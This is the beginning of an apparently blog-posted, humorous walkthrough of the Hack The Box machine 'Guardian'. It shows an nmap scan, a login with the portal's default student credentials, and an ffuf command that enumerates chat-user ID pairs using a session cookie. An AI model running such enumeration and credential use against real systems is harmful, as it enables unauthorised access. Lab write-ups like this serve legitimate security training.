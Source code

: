 Welcome to **Guardian (HTB)**, the university where passwords are weaker than cafeteria coffee.  
In this thrilling adventure, we’ll go from being a freshman student with identified creds → to hijacking lecturers → impersonating admins → and finally crowning ourselves the **Root Principal**. 🎓👑

---

## 🎬 Act 1 – Enrollment Day (Initial Foothold)

Every heist starts with recon. We scan the gates:

```bash
nmap -sC -sV -oA guardian guardian.htb
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1756878824910/a9f59a20-3ec5-46af-a11c-46bc57082c4c.png align="center")

Ports revealed:

* 22 → SSH
    
* 80 → HTTP (Apache)
    

Visiting `http://guardian.htb` shows the **Student Portal**.  
Like every lazy sysadmin, they left default creds in place:

```plaintext
Username: GU0142023
Password: GU1234
```

💥 Welcome to Guardian University, rookie hacker. You’re officially a student!

---

## 🎬 Act 2 – The Gossip Lounge (Chat Enumeration)

Students gossip in the chat system. URLs look like this:

```plaintext
http://portal.guardian.htb/student/chat.php?chat_users[0]=1&chat_users[1]=2
```

Looks **fuzzable**. Let’s enumerate.

```bash
seq 1 20 > nums.txt

ffuf   -u 'http://portal.guardian.htb/student/chat.php?chat_users[0]=FUZZ1&chat_users[1]=FUZZ2'   -w nums.txt:FUZZ1   -w nums.txt:FUZZ2   -mode clusterbomb   -H 'Cookie: PHPSESSID=03oc70jb5sohv0q245rslhhuvf'   -fl 178,164
```

Output highlights:

```plaintext
FUZZ1: 1 | FUZZ2: 2
FUZZ1: 2 | FUZZ2: 1
```
